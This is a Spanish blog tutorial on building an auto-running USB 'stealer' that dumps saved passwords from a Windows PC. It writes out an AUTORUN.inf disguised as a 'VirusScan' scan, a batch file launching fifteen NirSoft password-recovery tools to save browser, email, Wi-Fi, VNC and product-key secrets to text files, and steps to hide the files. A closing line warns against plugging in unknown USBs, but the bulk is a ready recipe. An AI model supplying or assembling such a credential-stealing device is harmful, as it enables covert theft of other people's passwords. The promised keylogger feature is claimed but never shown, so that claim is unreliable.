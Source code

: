 +++
date = "2015-05-02"
title = "Cómo crear un USB Keylogger/Stealer para recuperar contraseñas"
author = "Javier Olmedo"
+++

[![/images/como-crear-un-usb-keyloggerstealer-para-recuperar-contrasenas/como-crear-un-usb-keyloggerstealer-para-recuperar-contrasenas_banner.jpg](/images/como-crear-un-usb-keyloggerstealer-para-recuperar-contrasenas/como-crear-un-usb-keyloggerstealer-para-recuperar-contrasenas_banner.jpg)](/images/como-crear-un-usb-keyloggerstealer-para-recuperar-contrasenas/como-crear-un-usb-keyloggerstealer-para-recuperar-contrasenas_banner.jpg)

Hace unas semana publiqué una entrada sobre **Stealers** y expliqué lo que eran y para que servían, hoy vengo a explicaros como crear un USB que se autoejecute y **recupere todas nuestras contraseñas del PC** de manera automática, únicamente con conectarlo a nuestro PC, sin tocar absolutamente nada, ademas tendrá una función Keylogger, que registrará en un archivo .txt todo lo que pulsemos en nuestro teclado mientras el USB esté conectado al PC.

## Pasos a seguir

1) Inserta un pendrive para formatearlo, haz **«Click derecho»** sobre la unidad y en **«Formatear»**, podemos formatearlo en NTFS o FAT32 (este último es mas recomendado).

[![/images/como-crear-un-usb-keyloggerstealer-para-recuperar-contrasenas/como-crear-un-usb-keyloggerstealer-para-recuperar-contrasenas_001.png](/images/como-crear-un-usb-keyloggerstealer-para-recuperar-contrasenas/como-crear-un-usb-keyloggerstealer-para-recuperar-contrasenas_001.png)](/images/como-crear-un-usb-keyloggerstealer-para-recuperar-contrasenas/como-crear-un-usb-keyloggerstealer-para-recuperar-contrasenas_001.png)

[![/images/como-crear-un-usb-keyloggerstealer-para-recuperar-contrasenas/como-crear-un-usb-keyloggerstealer-para-recuperar-contrasenas_002.png](/images/como-crear-un-usb-keyloggerstealer-para-recuperar-contrasenas/como-crear-un-usb-keyloggerstealer-para-recuperar-contrasenas_002.png)](/images/como-crear-un-usb-keyloggerstealer-para-recuperar-contrasenas/como-crear-un-usb-keyloggerstealer-para-recuperar-contrasenas_002.png)

2) Abrimos el bloc de notas o similar y escribimos lo siguiente:

```bash
[autorun]
open = launch.bat
UseAutoPlay = 1
ACTION = Escaneando con VirusScan
```

Guardamos el archivo con el nombre **AUTORUN.inf** y lo dejamos dentro del USB.

3) Volvemos al bloc de notas para crear otro archivo, esta vez escribiremos:

```bash
start mspass.exe /stext mspass.txt
start mailpv.exe /stext mailpv.txt
start iepv.exe /stext iepv.txt
start pspv.exe /stext pspv.txt
start PasswordFox.exe /stext passwordfox.txt
start OperaPassView.exe /stext OperaPassView.txt
start ChromePass.exe /stext ChromePass.txt
start Dialupass.exe /stext Dialupass.txt
start netpass.exe /stext netpass.txt
start WirelessKeyView.exe /stext WirelessKeyView.txt
start BulletsPassView.exe /stext BulletsPassView.txt
start VNCPassView.exe /stext VNCPassView.txt
start OpenedFilesView.exe /stext OpenedFilesView.txt
start ProduKey.exe /stext ProduKey.txt
start USBDeview.exe /stext USBDeview.txt
```

Guardamos el archivo con el nombre **LAUNCH.bat** y lo dejamos dentro del USB.

4) Visitamos la web http://www.nirsoft.net/ y nos descargamos las siguiente herramientas:

```bash
mspass.exe
mailpv.exe
iepv.exe
pspv.exe
PasswordFox.exe
OperaPassView.exe
ChromePass.exe
Dialupass2.exe
Netpass.exe
WirelessKeyView.exe
BulletsPassView.exe
VNCPassView.exe
OpenedFilesView.exe
ProduKey.exe
USBDeview.exe
```

Debemos de **descomprimirlas** en la raiz del USB, os dejo un link con las direcciones de las [Herramientas]().

Nos quedaría de la siguiente manera.

[![/images/como-crear-un-usb-keyloggerstealer-para-recuperar-contrasenas/como-crear-un-usb-keyloggerstealer-para-recuperar-contrasenas_003.png](/images/como-crear-un-usb-keyloggerstealer-para-recuperar-contrasenas/como-crear-un-usb-keyloggerstealer-para-recuperar-contrasenas_003.png)](/images/como-crear-un-usb-keyloggerstealer-para-recuperar-contrasenas/como-crear-un-usb-keyloggerstealer-para-recuperar-contrasenas_003.png)

5) Descomprimimos todas las herramientas y **ocultamos todos los archivos**, al final todo quedaría así:

[![/images/como-crear-un-usb-keyloggerstealer-para-recuperar-contrasenas/como-crear-un-usb-keyloggerstealer-para-recuperar-contrasenas_004.png](/images/como-crear-un-usb-keyloggerstealer-para-recuperar-contrasenas/como-crear-un-usb-keyloggerstealer-para-recuperar-contrasenas_004.png)](/images/como-crear-un-usb-keyloggerstealer-para-recuperar-contrasenas/como-crear-un-usb-keyloggerstealer-para-recuperar-contrasenas_004.png)

[![/images/como-crear-un-usb-keyloggerstealer-para-recuperar-contrasenas/como-crear-un-usb-keyloggerstealer-para-recuperar-contrasenas_005.png](/images/como-crear-un-usb-keyloggerstealer-para-recuperar-contrasenas/como-crear-un-usb-keyloggerstealer-para-recuperar-contrasenas_005.png)](/images/como-crear-un-usb-keyloggerstealer-para-recuperar-contrasenas/como-crear-un-usb-keyloggerstealer-para-recuperar-contrasenas_005.png)

6) Quitamos el USB del ordenador y lo volvemos a insertar para comprobar que funciona, si todo ha ido bien nos aparecerán los siguientes **.txt**, que no hace falta que los abra porque ya se sabe lo que contienen, **todas las contraseñas del sistema, incluidas las del WI-FI**.

[![/images/como-crear-un-usb-keyloggerstealer-para-recuperar-contrasenas/como-crear-un-usb-keyloggerstealer-para-recuperar-contrasenas_006.png](/images/como-crear-un-usb-keyloggerstealer-para-recuperar-contrasenas/como-crear-un-usb-keyloggerstealer-para-recuperar-contrasenas_006.png)](/images/como-crear-un-usb-keyloggerstealer-para-recuperar-contrasenas/como-crear-un-usb-keyloggerstealer-para-recuperar-contrasenas_006.png)

Espero que os haya gustado, y ya sabéis, **no conectéis ningún USB a vuestro ordenador si no es vuestro o dudáis de lo que puede contener**.